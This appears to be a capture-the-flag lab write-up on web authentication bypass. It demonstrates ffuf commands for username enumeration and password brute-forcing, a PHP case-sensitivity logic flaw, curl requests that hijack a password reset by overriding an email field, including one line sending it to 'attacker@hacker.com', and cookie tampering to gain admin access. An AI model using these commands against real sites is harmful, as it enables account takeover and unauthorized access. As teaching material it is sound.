


## Task 1 - Brief
In this room, we will learn about different ways website authentication methods can be bypassed, defeated, or broken.

## Task 2 - Username Enumeration
It is helpful to create a list of valid usernames when trying to find authentication vulnerabilities. Website error messages are great resources for username information to build our list. A good example of this is error messages on account registration forms informing the user if a user with the desired name already exists on the system. We can use the existence of these types of messages to build our list of valid usernames for the web application.

We can use the `ffuf` utility along with a list of commonly used usernames to automate this process. Let's look at a practical example. The task provides us with a website with a user signup page. Trying to register a user which already exists presents with an error message "An account with this username already exists". We can utilize `ffuf` to fuzz the the web form and create a list of valid usernames which already have an account.



The general syntax we will be using is as follows:

```text
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.230/customers/signup -mr "username already exists"
```

- `-w` switch allows us to specify the worldlist we want `ffuf` to use for our attack.
- `-X` switch specifies the HTTP request method (POST being common when data is being sent to a server).
- `-d` switch specifies the data we are sending which is vary based on the web application. As we want to enumerate usernames, we use the `FUZZ` parameter as the data being passed for the `username` field.
- `-H` argument is used for adding additional headers to the request.
- `-mr` switch specifies the text on the page we are looking for to validate we have found a valid username.

Note that the data fields for the input boxes can be found in our instance by looking at the page-source for our webpage.


Let's put the valid usernames found by `ffuf` in a file called `valid_usernames.txt` which we will use later on.

## Task 3 - Brute Force
With a list of valid usernames, a login page of a web application can be brute-forced using a list of commonly used passwords. A brute-force attack is an automated process that tries a list of commonly used passwords against either a single username or a list of usernames. Once again, the `ffuf` utility can be used for this purpose.

Let's continue with our previous example. With a list of valid usernames, we can begin brute-forcing the login page of the website using `ffuf` with the following syntax:

```text
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.230/customers/login -fc 200
```
Here, we are defining two word lists with two separate fuzzing parameters (W1 and W1 for their respective wordlists). The `-fc` argument checks for an HTTP status code other than 200 (ie: filters the response to show HTTP status codes other than the specified 200).


## Task 4 - Logic Flaw
A logic flaw is when the typical logical path of an application is either bypassed, circumvented, or manipulated by an attacker. Logic flaws can exist in any area of a web application but in this task we will be looking at examples related to authentication.

Let's look at an example. The example code below checks to see whether the start of the path the client is visiting begins with `/admin`. If this is true, then further checks are made to see whether the client is an admin. If the page doesn't begin with the `/admin`, the page is shown to the client.

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equal signs (===), it is looking for an exact match on the string, including the same letter case. The code presents a logic flaw because an unauthenticated user requesting `/adMin` will not have their privileges checked and hae the page displayed to them (bypassing authentication checks entirely).

Let's look at a more practical example. We are going to examine the *Reset Password* function of the web application provided in this task. Navigating to the site, we find a fom asking for the email address associated with the account on which we wish to perform the password reset.


If an invalid email is entered, an error message "Account not found from supplied email address" is displayed.


Trying a valid email address (such as robert@acmeitsupport.thm) presents us with a new form which requires the username associated with this login email address.


If we enter the username from the list we created earlier (in particular the username robert since we are using his email), we will be presented with a confirmation message that a password reset email will be sent to the supplied email address: `robert@acmeitsupport.thm`



We are told that in the second step of the reset email process, the username is submitted in a POST field to the web server and the email address is sent in the query string request as a GET field. We can illustrate this by using `curl` to manually make the request to the web server.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
In the web application backend, the user account is retrieved using the query string and in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string. So if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```


To continue, let's create an account on the Acme IT support customer section, doing so gives us a unique email address that can be used to create support tickets. The email address is in the format of `{username}@customer.acmeitsupport.thm`.


Note that we created a user named `test` and are given an email address of `test@customer.acmeitsupport.thm`. Now lets go back to our malicious payload and replace the placeholder email address with the one we control.

```text
curl 'http://10.10.10.230/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=test@customer.acmeitsupport.thm'
```
Running the `curl` command above will create a ticket on our account whose contents will be the password reset link for *Robert*.


Using this link we can log into *Robert's* account.


## Task 5 - Cookie Tampering
Examining and editing the cookies set by the web server during online sessions can have consequences such as unauthenticated access, access to another user's account, or elevated privileges.

### Plain Text
The contents of some cookies can be in plain text. Take for example the following cookies set after a successful login:

```text
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
We see that the first cookie controls whether the user is currently logged in or not while the second cookie controls whether the user is an admin or not. Using this logic, an attacker may be able to change the contents of the cookies and make requests to get privilege escalation.

Let's look at a practical example. We begin by making a request to a target page.

```text
curl http://10.10.10.230/cookie-test
```


In our response we can see the message "Not Logged In". Now let's send another request with the `logged_in` cookie set to `true` and the `admin` cookie set to `false`.

```text
curl -H "Cookie: logged_in=true; admin=false" http://10.10.10.230/cookie-test
```


As we can see, we are not logged in as `User`. Now let's set the `admin` cookie to `true` as well.

```text
curl -H "Cookie: logged_in=true; admin=true" http://10.10.10.230/cookie-test
```


This returns the result of "Logged In As An Admin".

### Hashing
Often the contents of cookies are hashed using strong cryptographic hashing algorithms making them difficult if not impossible to tamper with. For weaker hashing algorithms like MD5 and SHA1, rainbow table attacks can be used. Online tools like [Crackstation](https://crackstation.net/) can be used to crack weak hashes.

### Encoding
Encoding is similar to hashing that it creates what appears to be a random string of text; however unlike hashing algorithms, encoding algorithms are reversible. Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encoding types are *base32* which converts binary data to the characters A-Z and 2-7, and *base64* which converts using the characters a-z, A-Z, 0-9, +, / and the equals sign for padding at the end of the string.

There are many offline and offline tools which can be used to encode and decode using various encoding methods. One good resource is [CyberChef](https://gchq.github.io/CyberChef/).